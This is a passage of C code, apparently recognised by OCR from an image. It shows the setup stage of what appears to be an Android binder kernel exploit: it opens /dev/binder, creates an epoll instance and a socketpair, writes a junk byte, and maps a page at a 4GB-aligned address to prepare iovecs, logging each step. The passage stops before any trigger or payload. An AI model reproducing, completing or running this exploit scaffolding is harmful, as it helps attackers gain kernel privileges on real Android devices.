 ```c
    printf("[+] starting opening binder\n");

    m_binder_fd = open("/dev/binder",O_RDONLY);

    if(m_binder_fd < 0){
        printf("[-] can not open /dev/binder\n");
        exit(EXIT_FAILURE);
    }else{
        printf("[+] open /dev/binder successfully m_binder_fd= %d \n",m_binder_fd);
    }
    
    printf("[+] start opening epollevent\n");

    m_epoll_fd = epoll_create(1);

    if(m_epoll_fd < 0){
        printf("[-] can not create eventpoll\n");
        exit(EXIT_FAILURE);
    }else{
        printf("[+] create eventpoll successfully m_epoll_fd = %d \n",m_epoll_fd);
    }

    printf("[+] Setting up socket \n");

    if(socketpair(AF_UNIX,SOCK_STREAM,0,sock_fd) == -1)
    {
         printf("[-]can not create socketpair\n");
         exit(EXIT_FAILURE);
    }else{
        printf("[+] created socketpair successfully\n");
    }

    printf("[+] writing junkcode to socket\n");

    static char junkSocketData[] = { 0x41  };
    nBytesWritten = write(sock_fd[1],&junkSocketData, sizeof(junkSocketData));

    if(nBytesWritten != sizeof(junkSocketData)){
        printf("[-] write junkcode failed , writed %lx, expected %lx",nBytesWritten,sizeof(junkSocketData));
        exit(EXIT_FAILURE);
    }

    printf("[+] setting up iovecs \n");

    if (!m_4gb_aligned_page) {
        printf("[+] Mapping 4GB aligned page\n");

        m_4gb_aligned_page = mmap(
                (void *) 0x100000000ul,
                PAGE_SIZE,
                PROT_READ | PROT_WRITE,
                MAP_PRIVATE | MAP_ANONYMOUS,
                -1,
                0
        );

        if (!m_4gb_aligned_page) {
            printf("\t[-] Unable to mmap 4GB aligned page\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] Mapped page: %p\n", m_4gb_aligned_page);
        }
```